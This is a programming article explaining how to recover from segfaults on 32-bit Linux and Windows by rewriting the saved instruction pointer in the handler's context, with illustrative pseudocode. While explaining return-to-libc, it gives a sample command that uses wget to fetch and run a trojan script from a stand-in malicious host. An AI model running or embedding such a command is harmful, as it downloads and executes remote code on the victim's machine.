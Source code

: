 Cleanly recovering from Segfaults under Windows and Linux (32-bit)
## two brief notes

First. Windows calls 'em access violations, Linux calls 'em segfaults. I'm a linux person, so I'll
go with segfaults. They're the same thing though.

Second. My code may look like C, but since it's ported from a decidedly not-C language and
I didn't actually test it to see if it compiles, you should treat it like pseudocode.
Caveat lexor. (look ma I'm classy)

## the problem

Segfault crashes are annoying. Most exceptions can be caught, but segfaults are the archetypal
instant/total crash. Ways of handling them tend to rely on system-specific methods and have their
own idiosyncracies. In this article I'm gonna outline how to recover from segfaults under Linux
(probably at least some other POSIX systems as well) as well as Windows (32-bit each). Interestingly,
the approach is quite similar, and should generalize to 64-bit systems with minor prodding assuming
you're familiar with the 64-bit version of cdecl.

## the basic idea

Both Windows and Linux let you define handler functions that are executed when a segfault occurs.
In theory we could throw an exception right from the handler, but this is **highly iffy**
because the operating system treats "the state of being in a handler function" as special.
We can't return from the handler function either, because that'll just bring us back to the
crash site. Instead, we need to take a page out of the Black Hat Book.

## return-to-libc

Almost all exploits are concerned primarily with getting the target computer to execute arbitrary
code. Buffer overflows let you overwrite variables, but they usually don't let you change _code_,
because assembler code does not live on the stack. There's a trick to bypass this, though,
and it's called the return-to-libc attack.

Basically, it would be enough if we could call one C library function with arbitrary arguments.
For instance, the function could be system() and the argument could be
`wget http://crackedserver.cc/trojan.sh && sh -c trojan.sh`. But we can't change code, so
we cannot insert a call instruction, even with a buffer overflow.

We can, however, reuse a call instruction that's already there.

Did you know that the "ret" instruction works like a jump that takes its address from the stack?

The way function calls work is, the "call" instruction pushes the next instruction address
after the "call" onto the stack (in most cases, the same stack as used for static buffers
, although some rare architectures have dedicated instruction stacks [and thus
are immune to this attack]), then executes a jump to the target function. Symmetrically,
the "ret"[urn] instruction simply pops an address from the stack and jumps to it.

Knowing this, our attack is simple: use a buffer overflow to overwrite the return address of the
current function with `&system`, and provide the appropriate arguments for it. This is made easier
by the fact that for historical reasons, most stacks grow _downwards_, as opposed to static buffers
on the stack, which naturally grow upwards.

We are going to make use of a similar approach.

## applying this to segfault recovery

We want the segfault handler to execute arbitrary code without being limited to what the OS
deems "safe" for handlers. For that, we need to execute a jump to the address of our userspace
(non-handler) handler function. But we can't rewrite the callsite.

We _can_ rewrite the stack. And we have one "ret" instruction available.

On both Windows and Linux, the segfault handler function is passed a "context struct", which
includes the state of the registers at the failure site. Ostensibly, this is so people can
repair the problem that caused the segfault (it also lets you do nifty things like userspace
segment handling). However, what we're going to do is to set up an imitation of the effects
of a call instruction on the stack (`push ip`), then rewrite the instruction pointer in that struct
and let the operating system's return to user code do the work for us - instead of returning to the
failing code, it's going to return to a handler function.

Enough talk. Bring the code!

## the code

### linux

    #include "signal.h"
    void seghandle_userspace() {
      // note: because we set up a proper stackframe,
      // unwinding is safe from here.
      // also, by the time this function runs, the
      // operating system is "done" with the signal.
      
      // choose language-appropriate throw instruction
      // raise new MemoryAccessError "Segmentation Fault";
      // throw new MemoryAccessException;
      // longjmp(erroneous_exit);
      // asm { int 3; }
      *(int*) NULL = 0;
    }
    enum X86Registers {
      GS, FS, ES, DS, EDI, ESI, EBP, ESP, EBX, EDX, ECX, EAX,
      TRAPNO, ERR, EIP, CS, EFL, UESP, SS
    }
    void seghandle(int sig, void* si, void* unused) {
      ucontext_t* uc = (ucontext_t*) unused;
      // No. I refuse to use triple-pointers.
      // Just pretend ref a = v; is V* ap = &v;
      // and then substitute a with (*ap).
      ref gregs = uc->uc_mcontext.gregs;
      ref eip = (void*) gregs[X86Registers.EIP],
      ref esp = (void**) gregs[X86Registers.ESP];
      
      // imitate the effects of "call seghandle_userspace"
      esp --; // decrement stackpointer.
              // remember: stack grows down!
      *esp = eip;
      
      // set up OS for call via return, like in the attack
      eip = (void*) &seghandle_userspace;
    }
    void setup_segfault_handler() {
      struct sigaction sa;
      sa.flags = SA_SIGINFO;
      sigemptyset (&sa.mask);
      sa.sigaction = &seghandle;
      if (sigaction(SIGSEGV, &sa, NULL) == -1) {
        fprintf(stderr, "failed to setup SIGSEGV handler\n");
        exit(1);
      }
    }

So on SIGSEGV, `seghandle` is called (as a signal handler), rewrites the signal's instruction address
to `seghandle_userspace`, then returns to the OS, which in returning to user code jumps to
`seghandle_userspace`, which then throws an exception or does whatever else it likes.

### windows

Under Windows, this is slightly more involved. (Of course it is. Have you seen the size of a
typical winapi function as compared to POSIX?)

What surprised me though, was how similar the approach is under Windows. The Linux approach can almost
be copied 1:1.

Big credit goes to Matt Pietrek and the highly valuable [crash course on the Depths of Win32™
SEH](http://www.microsoft.com/msj/0197/exception/exception.aspx).

Basically, Windows uses SEH (Structured Exception Handling) to cope with critical errors.
You've seen SEH before - the default SEH handler is the "This application has stopped working"
pop-up.
SEH handlers are tracked with a linked list stored in `FS[0]`. This is
the one part where you may need some assembler, or use your compiler's built-in primitives
(`_try`/`_except`) where provided. I'm going to assume that `_try`/`_except` is not available.

Okay. When a SEH error happens under Windows, the operating system grabs the list of handlers
from `FS[0]`, then queries them in order to see if any of them will handle the error. Handlers
have the choice to say "keep looking", "return to user code" or "invoke exception handler".

A useful note: if we pass over an exception and let the operating system handle it, it will call
our handler again with EH_UNWINDING set. Since the other parameters will be unchanged,
and the function probably won't try to suddenly handle an exception it just passed over,
this mostly need not concern us.

The code!

      #include "winbase.h"
      #include "windows.h"
      #include "excpt.h"
      void seghandle_userspace() {
        // see above re. what to do now
        *(int*) NULL = 0;
      }
      EXCEPTION_DISPOSITION seghandle
      (_EXCEPTION_RECORD* record, void* establisher_frame,
       _CONTEXT* context, void* dispatcher_context
      ) {
        // see above
        ref
          esp = (void**)context.Esp,
          eip = (void* )context.Eip;
        // imitate the effects of "call seghandle_userspace"
        // stack grows down under windows, too
        esp --;
        *esp = eip;
        // rewrite eip for return-to-lib, same as linux
        eip = (void*) &seghandle_userspace;
        // and back to user code.
        return ExceptionContinueExecution;
      }
      void setup_segfault_handler() {
        _EXCEPTION_REGISTRATION reg;
        // Note: this bit will require assembly.
        // Consult your compiler vendor documentation.
        reg.prev = FS[0];
        reg.handler = &seghandle;
        FS[0] = &reg;
        // note: do this on exit
        // fs[0] = ((_EXCEPTION_REGISTRATION) fs[0]).prev;
      }
